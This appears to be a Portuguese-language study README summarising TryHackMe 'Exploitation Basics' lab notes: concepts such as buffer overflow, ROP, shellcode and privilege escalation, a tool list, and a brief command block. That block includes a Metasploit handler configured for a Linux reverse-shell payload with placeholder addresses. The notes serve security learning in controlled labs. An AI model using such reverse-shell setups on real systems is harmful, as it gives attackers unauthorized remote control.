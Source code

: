 # 💥 Exploitation Basics – TryHackMe

A seção Exploitation Basics introduz os conceitos fundamentais de exploração de vulnerabilidades em sistemas e aplicações, abordando técnicas que hackers éticos usam para identificar e explorar falhas de segurança. O foco é **entender como falhas funcionam, como explorá-las em laboratórios controlados e como mitigá-las**, fornecendo base para pentesting avançado.

## Conceitos Principais
- **Exploit:** código ou técnica usada para tirar vantagem de uma vulnerabilidade em um sistema.  
- **Vulnerabilidade:** falha ou fraqueza em software, hardware ou configuração que pode ser explorada.  
- **Buffer Overflow:** ocorre quando mais dados são escritos em um buffer do que ele suporta, sobrescrevendo memória adjacente.  
- **Stack vs Heap Overflow:** stack overflow sobrescreve a pilha de execução; heap overflow sobrescreve área dinâmica de memória.  
- **Code Injection:** inserção de código malicioso em uma aplicação para execução não autorizada, incluindo SQL injection, command injection e script injection.  
- **Return-Oriented Programming (ROP):** técnica avançada que usa trechos de código existentes (gadgets) para executar payloads sem injetar código.  
- **NOP Sled:** sequência de instruções “No Operation” usada para aumentar a chance de sucesso em um buffer overflow.  
- **Payload:** código malicioso ou funcionalidade que será executada após exploração da vulnerabilidade. Pode ser um shell reverso, criação de usuário ou execução de comando.  
- **Privilege Escalation:** processo de obter níveis de acesso mais altos do que o permitido originalmente, pode ser **local (ex.: root/admin)** ou **remota**.  
- **Fuzzing:** técnica de enviar dados aleatórios ou malformados para identificar falhas e vulnerabilidades em software.  
- **Shellcode:** payload em linguagem de máquina projetado para executar comandos específicos após exploração.  

## Ferramentas e Comandos
Durante os laboratórios, foram utilizadas ferramentas comuns de pentesting para exploração segura:  
- **GDB / pwndbg:** depuradores para análise de binários, memória, registros e fluxo de execução.  
- **Metasploit Framework:** criação, configuração e execução de exploits com payloads prontos.  
- **Netcat (nc):** ferramenta para criar conexões TCP/UDP e testar comunicação entre cliente e servidor.  
- **Python:** scripts para gerar payloads, manipulação de binários e automação de exploits.  
- **objdump / readelf:** análise de binários ELF em Linux para estudo de offsets e endereços.  

### Exemplos de Comandos
```bash
# Testar conexão a serviço vulnerável
nc <IP> <PORT>

# Criar payload simples buffer overflow
python -c 'print("A"*64 + "B"*4)' > payload.txt

# Executar exploit via Metasploit
msfconsole
use exploit/multi/handler
set payload linux/x86/shell_reverse_tcp
set LHOST <local_ip>
set LPORT 4444
run

# Analisar binário em Linux
gdb vulnerable_binary
info registers
disassemble main
```
## Laboratórios Completos

- **Buffer Overflow Simples**: identificação de overflow, cálculo de offset, sobrescrita de endereço de retorno e execução de payload.

- **Exploração de Binários Linux**: análise com GDB, uso de NOP sled e shellcode personalizado.

- **Code Injection**: experimentos com SQL injection e command injection em ambientes vulneráveis.

- **ROP (Return-Oriented Programming)**: estudo de gadgets, montagem de payloads e bypass de NX/DEP.

- **Privilege Escalation**: exploração de vulnerabilidades locais para obter acesso root/admin, análise de SUID/SGID binaries no Linux e Windows.

- **Fuzzing Básico**: envio de entradas malformadas para serviços simples para detecção de crashes e comportamentos inesperados.
